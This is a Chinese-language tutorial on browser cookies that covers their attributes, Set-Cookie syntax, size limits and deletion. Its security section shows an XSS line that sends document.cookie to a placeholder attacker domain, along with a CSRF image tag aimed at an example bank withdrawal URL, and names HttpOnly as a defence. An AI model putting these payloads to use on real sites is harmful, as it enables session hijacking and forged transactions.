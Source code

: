 # 了解cookie

## 什么是cookie？
cookie是服务端保存在浏览器的一小段文本。当web服务器向浏览器发送web页面是，连接关闭后服务端不会记录用户的信息。cookie的作用就是解决“如何记录客户端的用户信息”。
- 当用户访问web页面，把信息可以记录在cookie
- 当用户下次访问时，可以在cookie中读取用户访问记录  

使用场景：
- 对话管理：保存登录、购物车等需要记录的信息
- 个性化：保存用户的偏好，比如网页的字体大小、背景色
- 追踪：记录和分析用户的行为

在服务端生成，在客户端以key-value形式保存用户信息

## Cookie的几个中枢性
- Expires和Max-Age
Expires指定一个具体的的到期时间，到指定时间之后，浏览器就不再保留这个cookie，值是UTC格式  
Max-Age指定从现在开始cookie存在的秒数，优先级比Expires高  
如果两者都不设置，cookie就是session Cookie，关闭浏览器就不会保留这个cookie
- Domain和path
这两个属性决定HTTP请求的时候那些请求会带上那些Cookie 
- Secure和HttpOnly
Secure属性指定浏览器只有在加密协议HTTPS下才能将这个Cookie发送到服务器，如果是HTTP，浏览器会自动忽略服务器发来的Secure属性
HttpOnly属性指定该Cookie无法通过JavaScript脚本拿到，Document.cookie属性、XMLHttpRequest对象和Request API都拿不到该属性

## cookie设置
服务器如果希望在浏览器保存Cookie，在HTTP回应的头信息里面放置一个Set-Cookie字段
```$xslt
Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
Set-Cookie: <cookie-name>=<cookie-value>; Secure
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly
```
Set-Cookie设置多个属性
```$xslt
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>; Secure; HttpOnly
```
Set-Cookie修改已经存在的cookie值，必须匹配所有的属性值（存在的时候），否则生成新的cookie  
浏览器根据Domain和path属性决定请求是否带上cookie，只有访问Domain + path及子路径才会带上

## Cookie安全
**会话劫持和XSS**
```$xslt
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
使用HttpOnly类型的cookie组织JS对其访问从而缓解这种攻击
**跨站点请求伪造（CSRF）**
```$xslt
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

## cookie自动删除和手动删除
- 发送服务器的所有cookie的最大数量不能4kb，cookie都会被阶段并且不会发送到服务器端
- IE7限制每个域名cookie的数量不超过50个，Opera限定cookie的数量为30个，Safari和Chrome就没有这种限制

限制cookie的原因，阻止cookie的滥用，cookie太大发送到服务端会影响请求的性能
**自动删除的几种可能**
- 会话 cookie(session cookie)在会话结束的时候会被删除
- 持久化cookie在达到失效日期的时候会被删除
- 浏览器的cookie达到上限，会自动清除，为新建的cookie腾出空间

参考：  
[菜鸟教程](https://www.runoob.com/js/js-cookies.html)  
[前端须知的Cookie知识小结](https://juejin.cn/post/6844903841909964813)
